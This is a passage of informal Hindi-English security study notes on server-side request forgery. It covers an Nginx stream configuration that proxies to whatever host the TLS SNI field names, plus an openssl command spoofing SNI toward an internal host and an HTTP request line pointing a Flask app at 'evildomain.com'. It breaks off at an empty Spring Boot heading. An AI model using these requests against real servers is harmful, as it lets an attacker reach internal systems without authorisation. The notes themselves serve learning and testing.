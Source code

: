         #### **SSRF via SNI (Server Name Indication) Misconfiguration in Nginx**

        #### 🧠 Pehle yeh samajh:

        **SNI (Server Name Indication)** kya hota hai?

        * Jab tu HTTPS request karta hai, client (like browser or curl or openssl) **TLS handshake** mein ek extra field bhejta hai: **`servername`**
        * Yeh batata hai ki kis domain ke liye certificate chahiye (useful in shared hosting)

        #### 🔥 Nginx stream block ka misuse

        ```bash
        nginx
        CopyEdit
        stream {
            server {
                listen 443;
                resolver 127.0.0.11;
                proxy_pass $ssl_preread_server_name:443;
                ssl_preread on;
            }
        }
        ```

        🧨 **Problem kya hai?**

        *   `proxy_pass` backend server set kar raha hai **SNI field ke value** se:

            `proxy_pass $ssl_preread_server_name:443;`
        * Matlab: jo bhi tu **`servername`** flag me daalega, wo hi Nginx backend bana dega!

        #### 🚨 SSRF Exploit Scenario

        Tu `target.com` pe openssl se ek request bhej:

        ```bash
        openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
        ```

        ➡️ Yeh kya karega?

        * TLS handshake karega `target.com` se
        * Lekin bolega SNI mein: “main `internal.host.com` se baat karna chahta hoon”
        * Nginx samjhega: “Okay! Mujhe proxy banana hai `internal.host.com:443` pe” 🔥

        **BAM!** Tu internal backend pe connect ho gaya — SSRF!
    *   [\*Misconfigured proxies to SSRF](https://blog.bugport.net/exploiting-http-parsers-inconsistencies) ( blog post)\*

        1.  **SSRF on Flask Through Incorrect Pathname Interpretation**

            ```bash
            GET @evildomain.com/ HTTP/1.1
            Host: target.com
            Connection: close
            ```
        2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretationv**
